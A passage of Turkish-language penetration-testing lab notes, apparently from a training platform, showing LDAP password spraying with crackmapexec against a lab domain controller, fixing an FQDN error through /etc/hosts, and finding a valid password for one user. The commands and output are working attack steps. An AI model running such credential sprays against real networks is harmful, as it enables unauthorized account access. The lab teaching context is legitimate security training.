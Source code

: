 Peter adlı hesabı ile sistemde komutlar çalıştırabiliriz, çünkü bu hesap Local administrator haklarına sahiptir. Bununla ilgili daha fazla bilgiyi `Command Execution` bölümünde ele alacağız.


### LDAP - Password Spraying 

LDAP protokolüne karşı Password Spraying yaparken `FQDN` kullanmamız gerekir, aksi takdirde hata alırız:

### IP kullanılırken hata oluştu

```
crackmapexec ldap 10.129.203.121 -u julio grace -p Inlanefreight01!

SMB 10.129.203.121 445 DC01 [*] Windows 10.0 Build
17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True)
(SMBv1:False)
LDAP 10.129.203.121 445 DC01 [-]
inlanefreight.htb\julio:Inlanefreight01! Error connecting to the domain,
are you sure LDAP service is running on the target ?
LDAP 10.129.203.121 445 DC01 [-]
inlanefreight.htb\grace:Inlanefreight01! Error connecting to the domain,
are you sure LDAP service is running on the target ?

```

Bu sorunu çözmek için iki seçeneğimiz var: saldırı hostumuzu domain name server (DNS) kullanacak şekilde yapılandırmak veya KDC FQDN'sini /etc/hosts dosyamızda yapılandırmak. İkinci seçeneği seçelim ve FQDN'yi /etc/hosts dosyamıza ekleyelim:


### FQDN'nin hosts dosyasına eklenmesi ve Password Spray İşleminin Gerçekleştirilmesi

```
cat /etc/hosts | grep inlanefreight
10.129.203.121 inlanefreight.htb dc01.inlanefreight.htb
```

```
crackmapexec ldap dc01.inlanefreight.htb -u julio grace -p
Inlanefreight01!

SMB dc01.inlanefreight.htb 445 DC01 [*] Windows
10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True)
(SMBv1:False)
LDAP dc01.inlanefreight.htb 445 DC01 [-]
inlanefreight.htb\julio:Inlanefreight01!
LDAP dc01.inlanefreight.htb 389 DC01 [+]
inlanefreight.htb\grace:Inlanefreight01
```


### Authentication (Kimlik Doğrulama) Mekanizmaları

